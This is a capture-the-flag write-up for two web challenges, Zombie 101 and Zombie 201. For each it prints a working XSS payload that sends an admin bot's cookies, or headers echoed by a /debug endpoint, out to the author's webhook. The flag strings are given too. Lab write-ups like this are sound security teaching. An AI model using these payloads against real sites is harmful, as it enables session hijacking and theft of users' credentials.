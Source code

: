 # Web 
## ZOmbie 101 {#zombie101}
This Challenge is a a classic xss where you steal the cookie's admin. (admin is a bot who visits the url you give).

![](/assets/wolvctf/Zombie101_Overview.png)

```
Payload : <script>window.location="https://<myWebHook>/?c=".concat(document.cookie)</script>
```
I sent the url with payload to the admin input and got the flag : ```wctf{c14551c-4dm1n-807-ch41-n1c3-j08-93261} ``` 

## Zombie 201 {#zombie201}
It is the same webapp than Zombie 101, but admin activated the httponly parameter. We can't gather the cookie throught the document object.
However, debug is activated allowing to perform request to /debug endpoint.

/debug's source code : 
```
// useful for debugging cloud deployments
app.get('/debug', function(req, res) {
    if (config.allowDebug) {
        res.send({"remote-ip": req.socket.remoteAddress, ...req.headers})
    }
    else {
        res.send('sorry, debug endpoint is not enabled')
    }
})

```
I thought I could exploit xss throught this endpoint :
```
payload : 
<script>
fetch("https://zombie-201-tlejfksioa-ul.a.run.app/debug")
  .then((response) => response.json())
  .then((data) => fetch("https://<MyHook>/?/=".concat(JSON.stringify(data)), { credentials: 'include' }));
</script>
```
Flag : ```wctf{h1dd3n-c00k135-d1d-n07-h31p-373964} ``` 
